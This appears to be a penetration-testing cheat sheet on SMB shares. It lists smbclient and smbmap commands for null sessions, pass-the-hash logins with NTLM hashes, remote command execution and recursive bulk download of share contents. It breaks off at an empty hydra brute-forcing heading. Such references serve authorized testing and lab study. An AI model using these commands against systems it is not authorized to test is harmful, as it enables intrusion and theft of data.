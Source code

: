 # Service Interaction

## smbclient

```bash
smbclient //$IP/SHARE_NAME
smbclient \\\\$IP\\SHARE_NAME$
smbclient -U user \\\\10.129.42.197\\SHARENAME
smbclient //$IP/C$ -U site.com/username%Password
smbclient //$IP/transfer -U username --pw-nt-hash 820d6348590813116884101357197052 -W site.com
```

## smbmap

```bash
smbmap -H $IP -u null # Null Connection
smbmap -u jsmith -p password1 -d workgroup -H $IP
smbmap -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -H $IP
smbmap -u 'apadmin' -p 'asdf1234!' -d ACME -Hh $IP -x 'net group "Domain Admins" /domain'
```

# Download all from share

## smbclient

```bash
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
smb: \>
```

## smbmap

```bash
# Downloads a file in quiet mode
smbmap -R $sharename -H $ip -A $fileyouwanttodownload -q

# download everything recursively in the wwwroot share to /usr/share/smbmap. great when smbclient doesnt work
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -s wwwroot -R -A '.*'
```

# Brute Forcing

## hydra
